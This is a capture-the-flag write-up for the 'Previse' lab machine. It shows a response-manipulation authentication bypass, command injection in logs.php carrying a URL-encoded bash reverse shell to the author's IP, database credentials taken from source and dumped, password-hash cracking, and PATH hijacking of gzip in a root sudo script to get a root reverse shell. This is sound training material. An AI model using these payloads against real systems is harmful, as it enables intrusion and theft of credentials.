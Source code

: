 # Previse

As always let's start with `nmap`

```console
$ nmap -sV 10.10.11.104
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-15 20:45 CET
Nmap scan report for 10.10.11.104
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port `80` there is a login portal, first thing to try is sqlmap

![](1.png)

With dirbuster we found the page `http://10.10.11.104/nav.php`

![](2.png)

And also this other links
- `http://10.10.11.104/footer.php`
- `http://10.10.11.104/download.pph`
- `http://10.10.11.104/header.php`

Unfortunately all links need authentication to work

If we capture the request to the home with burp we notice that some page is returned

![](3.png)

We can modify this respose and chage the status code to 200 to visuliaze the page

![](4.png)

![](5.png)

![](6.png)

![](7.png)

![](8.png)

And now we have access to the profile page, let's create a profile
 
In the `http://10.10.11.104/files.php` it's possibile to upload a `.php`, so probably we can open a reverse shell, so let's upload the revers shell php file and find to let the server open it

![](9.png)

It didn't work, but the `SITEBACKUP.ZIP` there is all the php pages of the website

Analyzing the `logs.php` file we see that some code is executed, and the `delim` parameter is taken from the user

```python
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
  
```
We can run every command we want, let's open a reverse shell

![](10.png)

```
comma%20%26%26%20%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E63%2F4242%200%3E%261%27
```

We now have acces to the shell with user `www-data`, to get the flag we need to become m4lwhere

![](12.png)

![](11.png)

In the other file of the server we found this, that seem a lot interesting

![](13.png)

```php
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

Whit this credential we can dump the whole DB

```console
mysqldump --user=root --password='mySQL_p@ssw0rd!:)' previse > /var/www/html/dump.sql
```

We can not visit http://10.10.11.104/dump.sql and download the file, open whit some sql interface and extract the data we need

![](14.png)

```
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
```

Let's crack this hash

```console
$ john --wordlist=/home/marco/Files/rockyou.txt --format=md5crypt-long toCrack
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovecody112235! (?)
1g 0:00:02:32 DONE (2021-11-26 21:51) 0.006564g/s 48665p/s 48665c/s 48665C/s ilovecoke95..ilovecody*
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We can try to use this password as user password for `m4lwhere:x:1000:1000:m4lwhere:/home/m4lwhere:/bin/bash`

```console
$ ssh m4lwhere@10.10.11.104

$ ls
user.txt

$ cat user.txt
45920176ac825fe79633c3d36c4b5221
```

#### **USER OWN** >> `45920176ac825fe79633c3d36c4b5221`

Type for take the system

```console
$ sudo -l
[sudo] password for m4lwhere: ilovecody112235!
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Let's analyze this file

```sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

We can create a custom gzip executable and spawn a root shell

```console
$ cat gzip
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.63/4242 0>&1'

$ chmod +x gzip
```

Now add `export PATH="$HOME/:$PATH"` to the `.bashrc` file, open a new shell and execute `access_backup.sh`. This will execute our reverse shell

```console
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```

```console
$ nc -l 4242
root@previse:~# whoami
root

$ ls
root.txt

$ cat root.txt
0278941a9cb5f05c4fbedf38add392fe
```

#### **SYSTEM OWN** >> `0278941a9cb5f05c4fbedf38add392fe`